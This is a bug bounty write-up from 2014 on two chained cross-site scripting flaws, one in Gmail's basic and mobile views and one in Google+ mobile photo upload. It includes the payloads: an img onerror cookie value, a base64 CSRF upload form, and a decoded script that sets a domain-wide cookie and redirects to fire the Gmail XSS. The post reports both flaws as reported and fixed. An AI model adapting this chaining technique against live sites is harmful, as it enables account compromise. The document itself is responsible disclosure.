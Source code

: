 ```yaml
---
title: "Gmail and Google+ - tale of two XSS-es"
date: "2014-06-14"
---
```


Note: you can also read [Polish version of this post](http://sekurak.pl/xss-owanie-google-a-czyli-opowiesc-o-dwoch-xss-ach/) on Sekurak

In this post I'll show you two XSS-es I've found in Google services: Gmail and Google+. In particular, I'll explain why I needed the second one to exploit the first one and why XSS-es within cookies do matter.

### Gmail

Gmail is one of the most recognized Google services. It comes in many different views, including [Basic HTML](http://mail.google.com/mail/h/) and [old mobile view](http://mail.google.com/mail/x/). The XSS I'm going to describe happened within both aforementioned versions. While they don't offer full function set of the original Gmail application, you can still accomplish basic tasks, including viewing and sending messages and, most importantly, applying labels.

For the sake of the example, let me try set a `<test>` label.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image1.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image1.png)

When everything goes fine, Gmail let you know in a notification that a conversation has been labelled.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image2.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image2.png)

When looking around http communication, I noticed that content of the notification is actually put in a cookie.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image3-600x126.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image3-600x126.png)

What immediately caught my attention was that the cookie contained *&lt;* and *&gt;* html entities. It was then natural to check if it's possible to insert a custom tag, for example `<img src=1 onerror=alert(1)>`.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image4-600x130.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image4-600x130.png)

Unfortunately it didn't work and server response was code 500. I thought that the character `>` might have been responsible for that since, as you can see, it is used in the cookie for other purposes. Perhaps the cookie was splitted by `>` and some server-side error happened when there was one more _greater-than_ character than expected. So let's just modify the payload and remove the unfortunate character.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image5-600x116.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image5-600x116.png)

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image6-600x274.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image6-600x274.png)

Great! The alert fired so I have an XSS on mail.google.com.

There is still one major problem though. In order to exploit this vulnerability, I need to be able to set arbitrary cookies in victim's browser. This is not normally possible and requires another vulnerability, one of the following:

- HTTP response splitting,
- Unrestricted Set-Cookie ([example](http://miki.it/blog/2013/9/15/xsrf-cookie-setting-google/)),
- Another XSS.

The first two vulns are pretty rare so let's just focus on the third one. Remember what attributes might a `Set-Cookie` contain? One of them is `Domain`. So when you issue a header:

```
Set-Cookie: Test=test; Domain=.google.com
```

... you create a cookie which is sent to any subdomain of google.com. Thus I need to find another XSS on any other Google subdomains and use it set a cookie to exploit Gmail. Google has like a gazillion of services so it shouldn't be that hard ;)

### Google+

And I was lucky to find another XSS - in Google+. Just as in Gmail, this one happened not in a main view but in [mobile](https://plus.google.com/app/basic/stream).

This time, uploading photos is vulnerable. I noticed that in upload request there are two big base64 http parameters: `puSuccessResponse` and `puFailureResponse`.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image7.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image7.png)

So let's decode them:

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image8.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image8.png)

It turned out that the values contain full html output of server response after the upload is finished. As you can guess, `puSuccessResponse` is rendered when everything goes fine and `puFailureResponse` when it fails. What is even more funny is that the request contained CSRF token (parameter `at`) but when the token was incorrect, server responds code 500 and still `puFailureResponse` was rendered!

It was that easy, let's just check a standard example with `alert(1)`:

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image10.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image10.png)

Now let's just put all the stuff together.

Check out the code:

```html
<html>
  <body>
    <form
      action="https://plus.google.com/\_/upload/app/basic/photos?cbp=&amp;cid=5&amp;soc-app=115&amp;soc-platform=1"
      method="POST"
      enctype="multipart/form-data"
    >
      <input type="hidden" name="puSuccessResponse" value="aGVq" />
      <input
        type="hidden"
        name="puFailureResponse"
        value="PHNjcmlwdD4KYWxlcnQoIkR1ZGUsIHlvdSdyZSBYU1MtZWQgb24gIitkb2N1bWVudC5kb21haW4pOwpkb2N1bWVudC5jb29raWU9IkdNQUlMX05PVEk9dGwxPjxpbWcrc3JjJTNkMStvbmVycm9yJTNkJTIyYWxlcnQoJ0FuZCtub3crb24rJyUyYmRvY3VtZW50LmRvbWFpbiklMjIreDsgIERvbWFpbj0uZ29vZ2xlLmNvbTsgUGF0aD0vIjsKZG9jdW1lbnQubG9jYXRpb24gPSAiaHR0cHM6Ly9tYWlsLmdvb2dsZS5jb20vbWFpbC94LyI7ICAgCjwvc2NyaXB0PiAg"
      />
      <input type="submit" value="Double XSS!" />
    </form>
  </body>
</html>
```

Where `puFailureResponse` is decoded to:

```html
<script>
  alert("Dude, you're XSS-ed on " + document.domain);
  document.cookie =
    "GMAIL_NOTI=tl1><img+src%3d1+onerror%3d%22alert('And+now+on+'%2bdocument.domain)%22+x;  Domain=.google.com; Path=/";
  document.location = "https://mail.google.com/mail/x/";
</script>
```

Let's see what's going to happen:

- An alert on plus.google.com will be shown,
- Cookie GMAIL_NOTI is set so that mail.google.com will be XSS-ed.
- User is immediately redirected to mail.google.com allowing the XSS to fire.

You can see a proof that it all worked in a video below :)

<iframe width="320" height="266" src="https://www.youtube.com/embed/gvCQmpfR2KE" title="Gmail and Google Plus - double XSS" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Both issues was reported to Google in March 2014 and have already been fixed. Big thanks to Google Security Team for running their [bounty program](http://www.google.pl/about/appsecurity/reward-program/), which is a great way to enhance one's skills.
